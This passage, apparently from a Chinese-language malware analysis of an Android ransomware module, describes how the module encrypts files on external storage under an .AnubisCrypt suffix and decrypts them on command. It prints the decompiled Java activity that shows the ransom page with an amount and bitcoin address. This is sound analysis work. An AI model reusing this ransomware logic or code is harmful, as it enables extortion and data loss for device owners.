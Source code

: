 **文件加密操作**

**加密逻辑实现**：在 onHandleIntent 方法中，获取 b 类中存储的加密状态 this.b = this.a.e(this, "status") 和加密密钥 this.c = this.a.e(this, "key")。若加密状态为 crypt，遍历外部存储目录（/mnt、/mount、/sdcard、/storage 等）及子文件，调用 b 类的 a(byte[] bArr, String str) 方法加密文件内容。将加密后数据写入新文件（原文件名加 .AnubisCrypt 后缀），删除原文件，完成文件加密与替换，使大量用户文件被加密无法正常访问，造成数据丢失与业务中断。

**加密状态记录**：加密过程各阶段，如开始加密外部存储目录、加密特定存储路径文件，调用 b 类的 a(String str, String str2) 方法记录日志信息（如 "Cryptolocker" 及对应阶段编号）。

**文件解密操作**

**解密逻辑实现**：若加密状态为 decrypt，遍历文件系统，识别 .AnubisCrypt 后缀文件，调用 b 类的 b(byte[] bArr, String str) 方法解密文件内容。将解密后数据写入新文件（去除 .AnubisCrypt 后缀），删除加密文件，恢复文件原始状态。

**解密状态记录与清理**：解密完成后，调用 b 类的 b(Context context, String str) 方法记录解密成功日志，告知用户文件系统已解密；调用 d(Context context, String str, String str2) 方法清除加密状态和密钥信息，更新配置。

## 0x1 勒索页面加载-kcdbt

> wocwvy.czyxoxmbauu.slsa.ncec.kcdbt

```java
public class kcdbt extends Activity {
    wocwvy.czyxoxmbauu.slsa.b a = new wocwvy.czyxoxmbauu.slsa.b();
    private class a extends WebChromeClient {
        private a() {
        }
        @Override // android.webkit.WebChromeClient
        public boolean onJsAlert(WebView webView, String str, String str2, JsResult jsResult) {
            return true;
        }
    }
    private class b extends WebViewClient {
        private b() {
        }
        @Override // android.webkit.WebViewClient
        public void onPageFinished(WebView webView, String str) {
        }
        @Override // android.webkit.WebViewClient
        public boolean shouldOverrideUrlLoading(WebView webView, String str) {
            return false;
        }
    }
    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String e = this.a.e(this, "htmllocker");
        String e2 = this.a.e(this, "lock_amount");
        String replace = e.replace("<amount>", e2).replace("<bitcoin>", this.a.e(this, "lock_btc"));
        WebView webView = new WebView(this);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.setScrollBarStyle(0);
        webView.setWebViewClient(new b());
        webView.setWebChromeClient(new a());
        webView.loadData(replace, "text/html", "UTF-8");
        setContentView(webView);
    }
}
```
